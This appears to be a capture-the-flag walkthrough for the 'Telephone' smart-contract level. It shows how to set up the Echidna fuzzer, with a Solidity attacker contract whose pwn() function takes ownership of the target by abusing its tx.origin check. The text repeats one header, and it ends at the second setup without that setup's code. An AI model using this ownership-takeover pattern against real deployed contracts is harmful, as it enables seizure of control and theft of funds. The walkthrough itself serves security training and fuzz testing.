 # Telephone Walkthrough
This walkthrough requires interacting with the target via a different contract. This gives us two different ways in which we can run this test. The first way is to let our test contract call the attacker contract. The other way, which maybe more realistic, is to let the fuzzer call the attack contract. 

The objective is to take ownership of the target.

## Setup 1
Create the config.yaml:
```yaml
contractAddr: "0x4242"
```

This is not strictly necessary as the contract will be deployed to the default address of `0x00a329c0648769a73afac7f9381e08fb43dbea72`. But to make things easier, I just decided to set the contract address to something smaller.

## Test Setup 1

In this test, we will use two contracts and the test contract's constructor to take ownership of the target.
```javascript
pragma solidity ^0.6.0;

import './Telephone.sol';

contract RingRing {
  Test phone = Test(0x4242);
  
  function pwn() public {
    phone.changeOwner(address(0x10000));
  }
}

contract Test is Telephone {
    RingRing ring;
  constructor() Telephone() public payable {
    // hint echidna
    ring = new RingRing();
  }

  function callPwn() public {
      ring.pwn();
  }

    function echidna_test_origin() public returns (bool) {
        if (tx.origin == owner) {
            return false;
        } else {
            return true;
        }
    }    
}
```

## Setup 2
## Setup 1
Create the config.yaml:
```yaml
contractAddr: "0x4242"
multi-abi: true
```

This is not strictly necessary as the contract will be deployed to the default address of `0x00a329c0648769a73afac7f9381e08fb43dbea72`. But to make things easier, I just decided to set the contract address to something smaller.

The second line `multi-abi: true` is needed to allow the echidna to call into any contract with a known ABI.

## Test Setup 2
In this setup, the fuzzer will call public functions from both the Test contract and the RingRing contract.

